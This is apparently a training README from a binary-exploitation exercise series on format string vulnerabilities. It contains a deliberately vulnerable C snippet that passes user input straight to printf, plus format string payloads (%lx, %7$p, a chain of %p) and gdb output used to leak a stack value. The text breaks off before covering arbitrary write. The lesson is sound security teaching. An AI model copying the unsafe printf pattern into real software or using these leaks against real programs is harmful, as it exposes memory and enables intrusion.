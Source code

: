 # PWN Example 05

This example will introduce format string vulnerabilities and how they are used for leaks and arbitrary write.

## Printf and Variadic Arguments

Printf has variadic arguments: It can have a variable number of agruments. The implementation of variadic arguments in C does not specify how to know the number of arguments used, so each function implementation needs to handle it itself.

With printf, the number of arguments is determined by the format specifier:
```c
printf("Hello %s! Your score is: %d", name, score);
```

## Example

Take a quick look to see if you can identify the vulnerability in this code before you start this example.
```c
fgets(input, 512, stdin);
printf("Hello ");
printf(input);
```

The bug here is that the user controls the format string. If the user sets input to `%d` for example, printf will attempt to read the next argument to printf as an integer. On `x86_64`, that will be the value in `rsi`. Format strings can also directly specify which argument to print by using a `$`: `%4$d`. Since arguments are passed on the stack after the registers are used, a user defined format string will be able to leak the stack.

```
What is your name?
%lx
Hello 7ffe9fb25870
```

In this case, 7ffe9fb25870 is the value in rsi. This can be checked in gdb if you are curious.

We can get passed the first check using this approach.
```c
char input[512];
int stackvar;
randint(&stackvar);

// Basic Format String to Leak Stack Variable
printf("What is your name?\n");
fgets(input, 512, stdin);
printf("Hello ");
printf(input);
```

We will need to first findd the offset from the stack where printf is called to our `stackvar`.
One way to do that is to use GDB and a semi-burte force approach, with a format string of `%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p`. The alternative would be to break in GDB and do some math, taking into account the calling convention and current stack pointer.

When we run in gdb, we get an output of:
```
Hello
0x7fffffff8f80.(nil).0x7ffff7ef7bd3.0x7fffffffb5f0.(nil).0x7fffffffb7e0.0xd6ae2baaf7fd771c.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0xa70252e70.0x1.0x7ffff7ffe6f8
```
We can print stackvar, and find it in our input
```
gef> p stackvar
$1 = 0xd6ae2baa
```
It is the first 4 bytes of the 7th argument: 0xd6ae2baaf7fd771c.

We can print this directly, then do the conversion to pass the check with:
```
What is your name?
%7$p
Hello 0xd4e04f6065b0271c
3571470176
```

### Part 2: Using Printf to leak and write to an arbitrary adress

The first example shows printf being used to leak a value that is already on the stack. But what if we want to read an address not in the stack, like somewhere in the GOT? If our input is on the stack, we can access our own input with our format specifiers, and use one like `%s` which will dereference the address given and print it as a string.

This explanation is incomplete. Watch the video on YouTube or read the solution script to continue.
